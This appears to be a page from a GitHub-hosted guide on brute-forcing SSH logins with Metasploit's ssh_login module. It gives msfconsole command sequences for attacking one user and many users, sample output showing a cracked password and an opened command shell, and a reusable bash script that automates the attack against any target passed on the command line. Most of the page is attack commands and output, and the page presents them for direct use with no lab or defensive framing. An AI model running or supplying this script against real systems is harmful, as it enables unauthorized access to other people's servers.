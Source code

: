 ### Targeted Brute Force Attack

```bash
# Target specific user (sysadmin)
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME sysadmin
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
msf6 auxiliary(scanner/ssh/ssh_login) > set THREADS 5
msf6 auxiliary(scanner/ssh/ssh_login) > set BRUTEFORCE_SPEED 3
msf6 auxiliary(scanner/ssh/ssh_login) > run

[+] 192.168.1.100:22 - Success: 'sysadmin:haley' 'uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin) Linux ubuntu 5.0.0-37-generic #40-Ubuntu SMP Thu Nov 14 00:14:01 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened
[*] Scanned 1 of 1 hosts (100% complete)
```

### Multi-User Brute Force

```bash
# Brute force multiple users
msf6 auxiliary(scanner/ssh/ssh_login) > unset USERNAME
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_AS_PASS true
msf6 auxiliary(scanner/ssh/ssh_login) > set BLANK_PASSWORDS true
msf6 auxiliary(scanner/ssh/ssh_login) > run
```

### Advanced Brute Force Script

```bash
#!/bin/bash

TARGET=$1
USER_LIST=${2:-"/usr/share/metasploit-framework/data/wordlists/common_users.txt"}
PASS_LIST=${3:-"/usr/share/metasploit-framework/data/wordlists/common_passwords.txt"}

echo "[*] Starting SSH brute force attack"
echo "[*] Target: $TARGET"
echo "[*] User list: $USER_LIST"
echo "[*] Password list: $PASS_LIST"

msfconsole -q -x "
workspace -a ssh_brute_force;
setg RHOSTS $TARGET;
use auxiliary/scanner/ssh/ssh_login;
set USER_FILE $USER_LIST;
set PASS_FILE $PASS_LIST;
set STOP_ON_SUCCESS true;
set THREADS 10;
set BRUTEFORCE_SPEED 3;
set VERBOSE false;
run;
sessions;
exit"
```
